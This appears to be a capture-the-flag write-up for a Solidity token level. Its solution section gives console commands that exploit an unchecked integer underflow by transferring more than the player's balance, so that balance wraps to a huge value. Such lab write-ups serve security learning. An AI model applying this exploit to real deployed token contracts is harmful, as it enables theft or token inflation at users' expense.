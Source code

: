 Learning: the important of using safemath to avoid common math issues like underflow or overflow. There's a pretty [insightful](https://medium.com/loom-network/how-to-secure-your-smart-contracts-6-solidity-vulnerabilities-and-how-to-avoid-them-part-1-c33048d4d17d) post by Georgios Konstantopoulos on Solidity smart contract common vulnerabilities. In this case, we are looking to exploit number 1.


### Solution
In order to underflow, it will be as easy as going to the console and transfer more than the player current balance
1. Figure out the player's balance:
```
let player_balance = await contract.balanceOf(player).then(v => v.toString());
```

2. Figure out the deployer's balance, just to confirm that most of the supply is there:
```
await contract.balanceOf(level).then(v => v.toString());
```

3. We want to force the user to hold a negative balance (because balance is of type unsigned integer). There we will send a bit more than his current balance to the deployer address, who holds the initial supply:
```
await contract.transfer(level, player_balance + 1);
```